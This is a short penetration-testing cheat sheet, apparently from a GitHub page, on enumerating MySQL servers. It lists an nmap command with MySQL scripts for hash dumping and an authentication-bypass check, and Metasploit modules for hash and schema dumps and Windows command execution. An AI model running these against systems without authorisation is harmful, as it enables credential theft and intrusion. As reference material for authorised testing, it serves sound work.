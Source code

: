 # MySQL enumeration

## Nmap

```bash
# nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP target>
```

## Metasploit

```text
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
```

Requiring credentials:

```text
msf> use auxiliary/scanner/mysql/mysql_hashdump
msf> use auxiliary/admin/mysql/mysql_enum
msf> use auxiliary/scanner/mysql/mysql_schemadump
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
```